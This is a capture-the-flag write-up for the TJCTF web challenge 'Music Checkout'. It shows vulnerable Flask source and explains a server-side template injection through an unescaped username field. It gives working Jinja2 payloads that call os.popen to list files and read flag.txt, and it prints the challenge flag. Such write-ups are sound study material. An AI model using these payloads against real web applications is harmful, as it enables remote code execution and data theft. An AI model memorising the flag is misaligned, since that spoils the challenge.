

# Music Checkout

Web, 80 solves. We are given python source code.

Looking at the route that handles user input:

```
@app.route("/create_playlist", methods=["POST"])
def post_playlist():
    try:
        username = request.form["username"]
        text = request.form["text"]
        if len(text) > 10_000:
            return "Too much!", 406
        if "{{" in text or "}}" in text:
            return "Nice try!", 406
        text = [line.split(",") for line in text.splitlines()]
        text = [line[:4] + ["?"] * (4 - min(len(line), 4)) for line in text]
        filled = render_template("playlist.html", username=username, songs=text)
        this_id = str(uuid.uuid4())
        with open(f"templates/uploads/{this_id}.html", "w") as f:
            f.write(filled)
        return render_template("created_playlist.html", uuid_val=this_id), 200
    except Exception as e:
        print(e)
        return "Internal server error", 500
```

We see that there are checks done for a basic SSTI payload on the text field, but not the username field. Looking at the playlist.html template, we can see how the username field is substituted:

```
<p class="item">ORDER #0001 for {{ username|safe }}</p>
```

The `|safe` indicates that the string should not be escaped and should be fully trusted as is, which bypasses all protections in place against SSTI. Thus, we can use basic SSTI payloads to achieve RCE on this site.

Submitting a username of `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}` shows us the following:

```
ORDER #0001 for Dockerfile __pycache__ app.py flag.txt templates 
```

So we can use `{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}` to read the flag.



Flag: `tjctf{such_quirky_taste_818602f2}`